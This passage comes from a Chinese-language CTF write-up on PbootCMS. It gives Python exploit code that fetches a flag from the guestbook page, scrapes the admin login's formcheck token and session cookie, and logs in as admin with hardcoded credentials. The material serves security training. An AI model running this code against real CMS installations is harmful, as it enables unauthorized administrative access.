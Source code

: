 2. 获取 Flag

   ```python
   def getFlag():
       r = requests.get("http://127.0.0.1/?gbook/")
       flagg = re.findall(r'''flag="(.+?)";''', r.text)
       if (len(flagg)!=0):
           print(flagg[0])
       else:
           print("Flag获取失败")
   ```

3. 主函数

   ```python
   import requests
   import re
   if __name__ == '__main__':
       url = "http://127.0.0.1/?message/"
       if postExp(url):
           getFlag()
   ```

##### 2.3 漏洞三

根据漏洞三的设计，进行 Exp 设计，分为以下几步：

1. 获取 ssrf token 以及 session id，后续登录需要校验

   ```python
   def getformCheck():
       r = requests.get("http://127.0.0.1/admin.php")
       r.encoding = 'utf-8'
       soup = BeautifulSoup(r.text, "html.parser")
       formcheck = soup.find("input", {"name": "formcheck"})['value']
       PbootSystem = r.cookies['PbootSystem']
       return formcheck, PbootSystem
   ```

2. 利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

   ```python
   def getck():
       check = getformCheck()
       headers = {
           'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                         'Chrome/71.0.3578.98 Safari/537.36',
           'Cookie': 'PbootSystem=' + check[1]
       }
       url = 'http://127.0.0.1/admin.php?p=/Index/login'
       data = {
           'username': 'check',
           'password': '12@aa4./(9Eb9AD)0)7',
           'formcheck': check[0]
       }
       r = requests.post(url, data, headers=headers)
       ck = r.cookies['PbootSystem']
       return 'PbootSystem='+ck
   ```
